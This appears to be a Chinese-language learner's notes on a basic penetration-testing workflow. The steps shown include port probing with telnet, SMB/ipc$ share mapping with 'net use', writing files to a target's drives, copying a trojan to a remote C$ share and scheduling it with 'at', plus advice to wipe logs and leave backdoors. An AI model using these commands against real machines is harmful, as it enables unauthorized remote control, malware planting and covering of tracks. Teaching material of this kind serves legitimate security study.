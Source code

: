 # 简单渗透测试的流程

[TOC]

## 一、流程

1. 授权
是指人为的授权，不是电脑授权。就是我允许你对我的电脑进行渗透，那你才是合法的，or you are illegal.

2. 信息收集
   * nslookup: =收集域名的 IP
   * whois: （网站）收集这个域名的子域名，是哪个公司的，邮箱是什么，电话号码是什么。如果是局域网就收集其他。

3. 扫描漏洞
    * nmap=ip 范围 端口 80(IIS, apache, 什么网站)
    * 高级扫描：
      如 IIS 漏洞2003-IIS6.0 2008-IIS7.0
      扫描网站漏洞

4. 漏洞利用

5. 提权（shell 环境、桌面环境）
6. 毁尸灭迹，清除自己的登录信息，清楚日志什么的
7. 留后门
8. 渗透报告

## 二、445 漏洞利用

1. 首先，怎么知道对方有没有开某个端口呢？使用以下命令可以知道：

    ```cmd
    telnet 10.1.1.1 445
    telnet 10.1.1.1 3389
    ```

    * 说明：`telnet` 命令是用来远程连接的，但是也经常用来做测试。给对方发一个探测包，看看有没有开对应端口。如果没有开，就会显示 `不能打开到主机的连接`。软件的检测也是利用这个原理。

2. 445 漏洞利用之 `ipc$`

    * 先学一条命令：该命令作用是把共享文件夹映射到本地盘符，这样每次访问就不用输入 `\\10.1.1.1\share` 的地址。（只对本次开机有效，长久有效设置：右键我的电脑 --> 映射网络驱动器）

    ```shell
    # 1. 把 share 文件夹映射到笨的 f 盘，打开我的电脑就可以看到这个盘符，点击就可以进去
    net use f: \\10.1.1.1\share 密码 /user:用户
    # 2. 取消上面的命令创建的盘符
    net use f: /del
    net use * /del # 删除所有链接
    # 3. 拓展
    net use f: \\10.1.1.1\c$ 密码 /user:用户
    net use \\10.1.1.1\ipc$ 密码 /user:用户 # 注意此命令不建立任何的映射盘符
    ```

    * 如何利用 `ipc$`

    ```shell
    # 1. 先建立空连接的映射
    net use \\10.1.1.1\ipc$ 密码 /user:用户
    # 2. 使用
    dir \\10.1.1.1\c$
    echo you are hacked! > \\10.1.1.1\d$\hello.txt
    ```

3. 视频教的是暴力破解，就是知道对方的账号密码之后用上面的命令进行对对方电脑的控制。

    * 说明：
    假设在已经得知对方的账号密码的情况下，通过 `net use` 命令控制对方，如果选择 `c$` 控制的是 c 盘，同理其他盘。而如果映射的是 `ipc$` 空连接，控制的是整个电脑。

## 三、后门

* 木马和病毒的区别：
  * 木马本身对电脑是没害的，有害的是控制木马的人。比如说：你电脑被种木马了，过一段时间电脑变卡了，那是因为控制木马的人对你电脑进行操作了。
  * 病毒是对计算机破坏的。
* 留后门就是种木马。

流程：（在和被控端建立了 `ipc$` 空连接的情况下）

1. 制作木马
2. 植入木马，把本地 d 盘的木马拷贝到被控端的 c 盘 `copy d:\heihei.exe \\10.1.1.1\c$\heihei.exe`
3. 查看被控端的时间 `net time \\10.1.1.1`
4. 为被控端添加计划任务，在11点11分执行 c 盘的木马程序（注意不要漏了 IP ，不然的话就是在本地执行了）`at \\10.1.1.1 11:11 "c:\heihei.exe"`
5. 等待肉鸡上线

* 注意：**替对方运行的时候千万不能用这样的命令** ：`\\10.1.1.1\c$\heihei.exe` 。
  这样是把对方的软件下载到本地运行！！
  